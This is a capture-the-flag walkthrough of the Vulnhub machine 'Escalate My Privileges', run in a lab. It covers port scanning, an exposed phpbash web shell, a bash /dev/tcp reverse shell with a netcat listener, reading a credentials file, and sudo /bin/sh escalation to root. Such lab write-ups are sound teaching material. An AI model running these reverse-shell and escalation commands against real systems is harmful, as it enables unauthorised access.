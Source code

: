 ```yaml
---
published: true
layout: post
category: Vulnhub
title: Escalate My Privileges
---
```

**URL:** [Escalate Privs Vulnhub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/)

**Difficulty:** Easy / Beginner Level

**Author:** Akanksha Sachin Verma

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![netdiscover](https://imgur.com/ZXbe7TE.png)

The IP 192.168.56.113 has been found so we will do a port scan with the following IP:

<pre>nmap -p- -i "nmap" -sS 192.168.56.113</pre>

Nmap will scan every port with -p-, save to file -o and TCP SYN scan -sS.

![nmap](https://imgur.com/9oFhuw8.png)

Port 22, 80 and 111 is open. I will be focusing on port 80 for my enumeration however it's worth looking at port 111 to see if there are any mountable file systems. I won't go down this route but [this](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) website has a section on it. 

Opening up port 80 in a browser, we get this:

![p80](https://imgur.com/76wn0qP.png)

The nmap scan identified a robots.txt file which is worth checking out. Go to 192.168.56.113/robots.txt and there is an entry with the following:

<pre> - User-agent: *
Disallow: /phpbash.php</pre>

This means they do not want that page to be shown in google so we'll check it out anyway.

Going to 192.168.56.113/phpbash.php gives us the following page:

![phpbash](https://imgur.com/nQxbms3.png)

We already have a lower priv shell with the ID "apache". We are currently in the www/html directory where the web files are kept. 

### Upgrade Shell

Upgrading to a reverse shell will be easier to work with. I use [this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to decide how I will get a reverse shell. Simply use the bash 'one-liner' and listen to a chosen port. 

<pre>bash -i >& /dev/tcp/192.168.56.101/4545 0>&1 </pre>

![rev_shell](https://i.imgur.com/QYgCcDI.png)

In this case, the reverse shell will be aimed at my local IP 192.168.56.101 on port 4545. Therefore set up a netcat listener on this port.

Make sure the netcat is set up before the command is executed. 

<pre>nc -nvlp 4545</pre>

Then execute the reverse shell and a connection should be established with user "apache".

![netcat](https://i.imgur.com/AFYGLzO.png)

### Privilege Escalation

After some enumeration, some files are found in the home directory of "armour". The contents of Credentials.txt reveal a password with md5(). Md5 is an algorithm that is widely used for hash functions producing a 128-bit hash value.

The md5 value has been shown by echo.

<pre>cd /home/armour
ls -la
cat Credentials.txt
echo -n "rootroot1" | md5sum </pre>

![md5](https://imgur.com/BJ1q5M4.png)

Let's try and use this password for the user "armour" by changing the user with the following command:

<pre>su armour</pre>

![armour](https://imgur.com/iJDJnlr.png)

The password is correct, we now have a new shell with ID armour. Make sure to upgrade the shell.

<pre>id
python3 -c 'import pty;pty.spawn("/bin/bash")'</pre>

First thing to do is to check the sudo privileges:

<pre>sudo -l</pre>

![sudo-l](https://imgur.com/qfvwZll.png)

There is a huge amount of options to explore however just by exploiting the first entry /bin/sh should give sudo privileges.

<pre>sudo /bin/sh</pre>

![root](https://imgur.com/aETTEPy.png)

And there is the flag in /root.
